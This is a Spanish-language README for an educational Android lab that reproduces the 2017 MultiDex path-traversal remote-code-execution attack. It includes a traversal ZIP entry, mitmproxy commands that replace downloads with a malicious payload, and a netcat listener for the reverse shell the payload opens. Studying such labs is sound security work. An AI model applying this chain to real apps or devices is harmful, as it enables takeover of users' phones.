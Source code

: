 # RCE Lab - Vulnerabilidad MultiDex 2017

## ¿Qué es esta vulnerabilidad?

Esta vulnerabilidad fue descubierta por **NowSecure en 2017** y afecta aplicaciones Android que utilizan MultiDex 1.0.1. El ataque combina dos técnicas:

1. **Path Traversal**: Archivos ZIP maliciosos que pueden escribir archivos fuera del directorio esperado usando `../../../../`
2. **MultiDex Auto-loading**: MultiDex 1.0.1 carga automáticamente archivos DEX desde el directorio `secondary-dexes`

**Referencia original
**: [NowSecure Blog - Android Multidex RCE](https://www.nowsecure.com/blog/2017/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/)

## ¿Cómo funciona el ataque?

1. La aplicación descarga archivos ZIP de URLs remotas
2. Un proxy malicioso (mitmproxy) intercepta las descargas y reemplaza el ZIP con uno malicioso
3. El ZIP malicioso contiene un archivo DEX en una ruta con path traversal: `../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/classes2.zip`
4. MultiDex 1.0.1 detecta automáticamente el archivo DEX y lo carga
5. El código malicioso se ejecuta inmediatamente (static initializer)

## Implementación del Path Traversal

### **Path Traversal Real vs Simulado**

El `exploit_bundle.zip` contiene una entrada con path traversal real:

```
../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip
```

Sin embargo, esta implementación **simula el resultado del path traversal** en lugar de ejecutarlo
directamente:

#### **¿Por qué simular en lugar de usar path traversal real?**

1. **Seguridad del Sistema Host**: Path traversal real podría escribir fuera del sandbox de la app
2. **Compatibilidad**: Funciona en cualquier versión de Android sin depender de permisos específicos
3. **Confiabilidad**: Android moderno tiene protecciones contra path traversal
4. **Propósito Educativo**: El resultado final es idéntico - DEX malicioso cargado por MultiDex

#### **Flujo de la Implementación:**

```kotlin
// 1. Extrae ZIP en cacheDir (seguro)
File(cacheDir, entryName)

// 2. Detecta archivos classes2.zip  
if (entryName.contains("classes2.zip"))

// 3. Copia manualmente a secondary-dexes (simula path traversal)
file.copyTo(File(targetDir, "com.app.lab.rce-classes2.zip"))

// 4. MultiDex carga automáticamente → RCE
```

## Requisitos

### **Software Necesario:**

- **Android SDK** con API Level 22+ instalado
- **Android Emulator** (API 21+) o dispositivo físico
- **ADB** configurado y funcionando
- **Python 3** con mitmproxy: `pip install mitmproxy`
- **Java JDK 8+** para compilar payload

### **Verificación de Requisitos:**

```bash
# Verificar ADB
adb version

# Verificar dispositivo conectado
adb devices

# Verificar Python y mitmproxy  
python3 -c "import mitmproxy; print('OK')"

# Verificar Android SDK
echo $ANDROID_HOME
```

## Pasos para replicar

### 1. Construir el payload malicioso

```bash
./build_payload.sh
```

Esto crea `exploit_bundle.zip` con el DEX malicioso y path traversal.

### 2. Compilar e instalar la aplicación vulnerable

```bash
./gradlew assembleDebug
adb install -r app/build/outputs/apk/debug/app-debug.apk
```

### 3. Configurar el proxy malicioso

```bash
# Iniciar mitmproxy en background
mitmdump -s mitmproxy/inject_payload.py -p 8090 &

# Configurar proxy en el emulador
adb shell settings put global http_proxy 10.0.2.2:8090
```

### 4. Preparar listener para reverse shell

```bash
nc -l 4444 &
```

### 5. Ejecutar el ataque

```bash
# Lanzar la aplicación
adb shell am start -n com.app.lab.rce/.MainActivity

```

## ¿Cómo saber si funcionó?

### Indicadores visuales:

- **UI de la app**: Cambia de "SECURE" (verde) a "COMPROMISED" (rojo)

### Verificación técnica:

```bash
# Verificar archivo de evidencia
adb shell run-as com.app.lab.rce cat files/pwned.txt

# Verificar conexiones del reverse shell
lsof -i :4444
```

### Logs esperados:

```
NOWSECURE 2017: Malicious DEX planted for next restart
SIMULATION: Triggering app restart...
NOWSECURE 2017: Payload auto-loaded by MultiDex
RCE: Static initializer executed
RCE: Evidence file created successfully
RCE: Constructor executed - launching reverse shell
NOWSECURE 2017: RCE executed on app startup
```

## Componentes del exploit

- **`AdUpdateService.kt`**: Descarga ZIPs cada 10 segundos y simula path traversal
- **`RCEApplication.kt`**: Configuración MultiDex vulnerable
- **`Shell.java`**: Payload que crea archivo de evidencia y reverse shell
- **`inject_payload.py`**: Proxy que intercepta y reemplaza descargas
- **`build_payload.sh`**: Script que construye el ZIP malicioso

## Funcionamiento automático

Una vez iniciada, la aplicación:

- Descarga archivos cada 10 segundos automáticamente
- El proxy intercepta y sirve el payload malicioso
- El exploit se ejecuta automáticamente sin intervención del usuario
- El exploit se ejecuta en el siguiente restart (patrón NowSecure 2017)
- Cada ejecución crea nuevas conexiones de reverse shell


**⚠️ Nota**: Este proyecto es solo para fines educativos y demostración de vulnerabilidades de seguridad. No usar para actividades maliciosas.
